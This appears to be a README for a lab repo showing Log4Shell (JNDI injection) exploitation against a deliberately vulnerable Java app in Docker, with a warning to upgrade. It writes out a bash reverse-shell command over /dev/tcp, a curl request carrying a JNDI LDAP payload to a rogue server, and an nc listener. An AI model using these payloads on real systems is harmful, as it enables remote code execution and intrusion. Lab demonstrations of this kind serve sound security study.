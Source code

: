 # fun with log4shell and docker

This repo to proof exploitation in latest java version exist too !
Please do not rely on your java version to be safe and upgrade neo4j package !

- vulnerable app from : https://github.com/christophetd/log4shell-vulnerable-app.git
- vulnerability explained : https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/


## play 
- launch the vulnerable app : `./start_vuln_server.sh`
- launch exploit :  `./exploit.sh <rogueserver_ip> <rogueserver_port> <cmd>`
  - example : ./exploit.sh 172.28.0.1 4445 'bash -i >& /dev/tcp/172.28.0.1/4444 0>&1'
- trig the exploit and start listener : 
  - example : `( sleep 2 && curl 127.0.0.1:8081 -H 'User-Agent: ${jndi:ldap://172.28.0.1:4445/o=tomcat}' ) & nc -nlvp 4444 `'

![](./poc.png)
